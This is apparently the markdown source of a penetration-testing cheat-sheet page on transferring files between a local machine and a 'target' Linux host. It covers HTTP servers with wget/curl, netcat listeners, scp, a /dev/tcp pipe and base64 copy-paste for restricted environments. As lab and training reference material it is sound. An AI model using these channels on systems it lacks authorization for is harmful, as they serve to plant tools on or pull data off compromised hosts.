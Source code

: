 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["file transfer", "nc", "scp"]
---
```


---
{{< tab set1 tab1 active >}}HTTP{{< /tab >}}
{{< tab set1 tab2 >}}nc{{< /tab >}}
{{< tab set1 tab3 >}}scp{{< /tab >}}
{{< tab set1 tab4 >}}PIPE{{< /tab >}}
{{< tab set1 tab5 >}}Base64{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Start a local HTTP server
python3 -m http.server 80
```

```bash
# In target Linux machine
wget <LOCAL_IP>/<FILE>
```

```bash
# In target Linux machine
curl <LOCAL_IP>/<FILE> -o <REMOTE_DEST_PATH>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# In our local Linux machine
nc -lvnp 4444 < <FILE>
```

```bash
# In target Linux machine
nc -w3 <LOCAL_IP> 4444 > <FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

#### Remote to Local

```bash
# If you have target password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```bash
# If you have a ssh key
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

</div>

#### Local to Remote

<div>

```bash
# If you have target password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```bash
# If you have a ssh key
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

<div>

#### Local to Remote

```bash
# In our local Linux machine
cat <FILE> | nc -lnvp 4444
```

```bash
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/4444
```

```bash
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```bash
# Check
md5sum <FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

#### Small binary

```bash
# Base64 encode binary
cat <FILE> | base64 -w0
```

```bash
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

</div>

{{< /tabcontent >}}

<br>
